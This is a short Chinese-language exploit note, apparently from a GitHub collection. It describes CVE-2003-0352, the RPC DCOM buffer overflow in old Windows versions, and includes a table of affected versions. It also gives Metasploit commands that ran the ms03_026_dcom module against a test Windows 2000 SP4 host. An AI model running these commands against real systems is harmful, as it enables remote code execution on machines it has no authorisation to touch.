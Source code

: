 ###  CVE-2003-0352

#### 描述

某些RPC的DCOM接口中的缓冲区溢出使远程攻击者可以通过格式错误的消息执行任意代码

#### 影响版本

| Product             | CPU Architecture | Version | Update | Tested             |
| ------------------- | ---------------- | ------- | ------ | ------------------ |
| Windows 2000        |                  |         |        |                    |
| Windows 2000        |                  |         | SP1    |                    |
| Windows 2000        |                  |         | SP2    |                    |
| Windows 2000        |                  |         | SP3    |                    |
| Windows 2000        |                  |         | SP4    | :heavy_check_mark: |
| Windows Server 2003 |                  | R2      |        |                    |
| Windows Nt          |                  |         | SP1    |                    |
| Windows Nt          |                  | 4.0     | SP2    |                    |
| Windows Nt          |                  | 4.0     | SP3    |                    |
| Windows Nt          |                  | 4.0     | SP4    |                    |
| Windows Nt          |                  | 4.0     | SP5    |                    |
| Windows Nt          |                  | 4.0     | Sp6a   |                    |
| Windows Nt          |                  | 4.0     | SP6    |                    |
| Windows Xp          |                  |         | SP1    |                    |
| Windows Xp          |                  |         | Gold   |                    |

#### 利用方式

测试系统Windows 2000 SP4 x86

```
use exploit/windows/dcerpc/ms03_026_dcom
set RHOST 192.168.1.17
run
```

![image-20200823200752021](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2003-0352_win2000_x86_msf.png?raw=true)

查看系统信息

![CVE-2003-0352_win2000_x86_msf2](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2003-0352_win2000_x86_msf2.png?raw=true)

